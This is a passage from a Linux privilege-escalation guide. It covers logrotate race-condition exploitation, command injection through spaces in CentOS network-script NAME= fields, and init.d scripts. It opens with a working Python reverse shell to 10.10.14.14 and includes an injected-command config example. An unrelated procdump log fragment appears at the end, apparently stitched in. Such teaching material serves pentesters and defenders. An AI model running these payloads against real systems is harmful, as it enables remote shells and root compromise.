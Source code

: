 ```python
import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.14",5678));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);
```

### Logrotate exploitation

A vulnerability in `logrotate` lets users with **write permissions** on a log file or its parent directories potentially gain escalated privileges. This is because `logrotate`, often running as **root**, can be manipulated to execute arbitrary files, especially in directories like _**/etc/bash_completion.d/**_. It's important to check permissions not just in _/var/log_ but also in any directory where log rotation is applied.

> [!TIP]
> This vulnerability affects `logrotate` version `3.18.0` and older

More detailed information about the vulnerability can be found on this page: [https://tech.feedyourhead.at/content/details-of-a-logrotate-race-condition](https://tech.feedyourhead.at/content/details-of-a-logrotate-race-condition).

You can exploit this vulnerability with [**logrotten**](https://github.com/whotwagner/logrotten).

This vulnerability is very similar to [**CVE-2016-1247**](https://www.cvedetails.com/cve/CVE-2016-1247/) **(nginx logs),** so whenever you find that you can alter logs, check who is managing those logs and check if you can escalate privileges substituting the logs by symlinks.

### /etc/sysconfig/network-scripts/ (Centos/Redhat)

**Vulnerability reference:** [**https://vulmon.com/exploitdetails?qidtp=maillist_fulldisclosure\&qid=e026a0c5f83df4fd532442e1324ffa4f**](https://vulmon.com/exploitdetails?qidtp=maillist_fulldisclosure&qid=e026a0c5f83df4fd532442e1324ffa4f)

If, for whatever reason, a user is able to **write** an `ifcf-<whatever>` script to _/etc/sysconfig/network-scripts_ **or** it can **adjust** an existing one, then your **system is pwned**.

Network scripts, _ifcg-eth0_ for example are used for network connections. They look exactly like .INI files. However, they are \~sourced\~ on Linux by Network Manager (dispatcher.d).

In my case, the `NAME=` attributed in these network scripts is not handled correctly. If you have **white/blank space in the name the system tries to execute the part after the white/blank space**. This means that **everything after the first blank space is executed as root**.

For example: _/etc/sysconfig/network-scripts/ifcfg-1337_

```bash
NAME=Network /bin/id
ONBOOT=yes
DEVICE=eth0
```

(_Note the blank space between Network and /bin/id_)

### **init, init.d, systemd, and rc.d**

The directory `/etc/init.d` is home to **scripts** for System V init (SysVinit), the **classic Linux service management system**. It includes scripts to `start`, `stop`, `restart`, and sometimes `reload` services. These can be executed directly or through symbolic links found in `/etc/rc?.d/`. An alternative path in Redhat systems is `/etc/rc.d/init.d`.


[20:20:58 - WARN]: Procdump not running with elevated credentials. If your uid does not match the uid of the target process procdump will not be able to capture memory dumps
[20:20:58 - INFO]: Timed:
[20:21:00 - INFO]: Core dump 0 generated: ./sleep_time_2021-11-03_20:20:58.1714
